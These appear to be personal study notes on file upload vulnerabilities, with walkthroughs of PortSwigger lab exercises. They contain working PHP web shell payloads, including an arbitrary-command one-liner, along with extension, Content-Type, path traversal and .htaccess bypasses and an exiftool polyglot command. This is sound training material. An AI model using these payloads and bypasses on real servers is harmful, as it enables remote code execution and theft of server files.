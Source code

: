 # File Upload Vulnerabilities

[Portswigger](https://portswigger.net/web-security/file-upload#what-are-file-upload-vulnerabilities)

## Methodology

Hint: The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping

the following PHP one-liner could be used to read arbitrary files from the server's filesystem `<?php echo file_get_contents('/path/to/target/file'); ?>` 
or `<?php echo system($_GET['command']); ?>` 

### Flawed file input type validation

Example HTML form request:

```
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```

if input validation only applies to the first part of the `form-data` you can change the data types and get execution like that, notice the two different `Content-Type`s above

### Preventing file execution in user-accessible directories

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead

Tip: Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved

### Insufficient blacklisting of dangerous file types

Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on

### Overriding the server configuration

you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type. 

examples:

Apache added as `.htaccess`

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

IIS added as web.config

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### Obfuscating file extensions

steps to obfuscate

- case sensitive bypassing like `exploit.pHp`
- provide multiple extensions `exploit.php.jpg`
- add trailing characters `exploit.php.`
- try using URL encoding, or double URL encoding for dots, forward slashes, and backward slashes `exploit%2Ephp`
  - If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked
- Add semicolons or URL-encoded null byte characters before the file extension `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- try using multibyte unicode characters which may be converted to null bytes and dots after unicode conversion or normalization like: `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path
- other defenses may strip or replace dangerous extensions, do this to maybe avoid: `exploit.p.phphp`

### Flawed validation of the file's contents

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected

certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata

### Exploiting file upload vulnerabilities without remote code execution

**Uploading malicious client-side scripts**

if you can upload HTML files or SVG images, you can potentially use <script> tags to create stored XSS payloads

**Exploiting vulnerabilities in the parsing of uploaded files**

example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for XXE injection attacks

### Uploading files using PUT

some web servers may be configured to support PUT requests, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface

Tip: You can try sending OPTIONS requests to different endpoints to test for any that advertise support for the PUT method.

## Labs walkthrough

### Remote code execution via web shell upload

Background: 

```
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log into your account, notice the option for uploading an avatar image
- upload an arbitrary image and notice that afterwards your preview of your avatar is now displayed on the page
- in `Proxy > HTTP history` click the filter bar to open the `HTTP history filter` window, under the `Filter by MIME type` enable the `images` checkbox then apply the changes
- no in burp history search for the `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- now on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- use the avatar upload functionality to upload the above file, then in the repeater tab change the path to `GET /files/avatars/exploit.php HTTP/1.1` and send
- you will now have carlos' secret in the response

### Web shell upload via Content-Type restriction bypass

Background:

```
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log in and upload an image as your avatar, go to your account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- attempt to upload this script as your avatar but notice you get blocked, with an error saying only files with MIME type `image/jpeg` or `image/png`
- in burp go to history and send the `POST /my-account/avatar` request to repeater
- change the `content-type` to `image/jpeg` and send
- switch to the `GET` request in repeater and send to get the info for carlos' secret

### Web shell upload via path traversal

Background:

```
This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log in and upload an image as your avatar, then go back to the account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- upload the script and notice you don't get blocked based on it being a php file
- in repeater go to the tab containing the `GET /files/avatars/<YOUR-IMAGE>` request, in the path replace the name of your image file with exploit.php and send the request, observe that instead of executing the script and returning output, it just served it as a txt file
- in burps history find the `POST /my-account/avatar` and send it to repeater
- change the `POST /my-account/avatar` requests `Content-Disposition` headers `filename` to include a directory traversal sequence: `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
- upload and notice the response `The file avatars/exploit.php has been uploaded`, this means the directory traversal was stripped
- now obfuscate the directory traversal with URL encoding the slash character `/`: `filename="..%2fexploit.php"`
- send the request and observe that the message now says: `The file avatars/../exploit.php has been uploaded`, inidcating the file name is being URL decoded by the server
- go back to your account page
- find the `GET /files/avatars/..%2fexploit.php` and observe that carlos' secret was returned in the response

### Web shell upload via extension blacklist bypass

Background:

```
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter
Hint: You need to upload two different files to solve this lab
```

- log in and upload an image as your avatar, then go back to the account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- attempt to upload this script as your avatar, you get blocked because it is a `.php` file extension
- in burp history look for the `POST /my-account/avatar` and send it to repeater
- in repeater find the part of the body that relates to your PHP file, make the following changes
  - Change the value of the `filename` parameter to `.htaccess`
  - Change the value of the `Content-Type` header to `text/plain`
  - Replace the contents of the file (your PHP payload) with the following Apache directive: `AddType application/x-httpd-php .l33t`
- send the request and see that it was successful
- use burp repeater to return to the original request for uploading you PHP exploit and change the value of the filename parameter from `exploit.php` to `exploit.l33t` send the request again and notice that it was successful
- switch to the repeater tab containing the `GET /files/avatars/<YOUR-IMAGE>` change the path to ``exploit.l33t` and send it and get carlos' secret in the response

### Web shell upload via obfuscated file extension

Background:

```
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log in and upload an image as your avatar, then go back to the account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- attempt to upload and see that it is blocked because it isn't a JPG or PNG file
- in proxy history find the `POST /my-account/avatar` and send to repeater
- in the above repeater tab change the `filename` parameter in the `Content-Disposition` header like so: `filename="exploit.php%00.jpg"`
- send the request and observe that the file was successfully uploaded and the message referes to the file as `exploit.php` suggesting that the null byte and `.jpg` extension have been stripped
- switch back to the `GET /files/avatars/<YOUR-IMAGE>` request and change the path to `exploit.php` and send to get carlos' secret

### Remote code execution via polyglot web shell upload

Background:

```
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- log in and attempt to upload the script as your avatar, observe that this gets blocked
- create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata using the exiftool: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
- in your browser attempt to upload this polyglot file as your avatar, and go back to your account page
- in burps history find the `GET /files/avatars/polyglot.php` and use the message editor's search feature to find the `START` string somewhere within the binary image data in the response, between the `END` string you should see carlos' secret like so: `START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`

